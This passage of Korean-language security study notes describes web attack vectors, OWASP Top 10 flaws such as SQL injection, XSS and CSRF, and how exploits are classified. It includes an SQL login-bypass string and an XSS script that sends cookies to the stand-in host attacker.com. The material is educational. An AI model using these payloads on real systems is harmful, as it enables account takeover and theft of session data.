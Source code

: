 ##### 2. 웹 애플리케이션 취약점 이용
- 웹 프로그래밍 언어의 오류나 로직 결함 악용
- OWASP Top 10 취약점 활용

##### 3. 웹 서버 및 미들웨어 샘플 파일 이용
- 기본 설치 시 포함된 샘플 파일 악용
- 관리자가 삭제하지 않은 테스트 파일 이용

#### OWASP Top 10 주요 취약점

##### 🔴 SQL 삽입(SQL Injection)
- 데이터베이스 쿼리에 악의적인 SQL 코드 삽입
- 데이터베이스 정보 유출, 변조, 삭제 가능

```sql
-- 예시: 로그인 우회
SELECT * FROM users WHERE username = 'admin' OR '1'='1' --' AND password = 'anything'
```

##### 🔴 크로스 사이트 스크립팅(XSS)
- 웹 페이지에 악성 스크립트 삽입
- 사용자 쿠키, 세션 정보 탈취

```javascript
// 예시: 쿠키 정보 탈취
<script>document.location='http://attacker.com/cookie.php?cookie='+document.cookie;</script>
```

##### 🔴 사이트 간 요청 위조(CSRF)
- 사용자가 의도하지 않은 요청을 강제로 전송
- 권한을 이용한 악의적 작업 수행

### 4. 취약점 공격(Exploit)

#### 정의
**취약점 공격(Exploit)**이란 컴퓨터의 소프트웨어나 하드웨어 및 컴퓨터 관련 전자 제품의 버그, 보안 취약점 등 설계상 결함을 이용해 공격자의 의도된 동작을 수행하도록 만들어진 절차나 일련의 명령, 스크립트, 프로그램 또는 특정한 데이터 조각을 말합니다.

#### 공격 위치에 따른 분류

##### 로컬 취약점 공격
- 취약점 공격이 **공격 대상 자체에서 실행**됨
- 물리적 접근이 필요한 경우가 많음
- 권한 상승 공격에 주로 사용

##### 원격 취약점 공격
- **공격자의 컴퓨터에서 실행**되어 다른 컴퓨터를 공격
- 네트워크를 통한 원격 공격
- 가장 일반적인 공격 형태

#### 취약점 종류에 따른 분류
- **BOF(Buffer Overflow)**: 버퍼 오버플로우 취약점 이용
- **XSS(Cross-Site Scripting)**: 웹 애플리케이션 스크립팅 취약점
- **CSRF(Cross-Site Request Forgery)**: 사이트 간 요청 위조
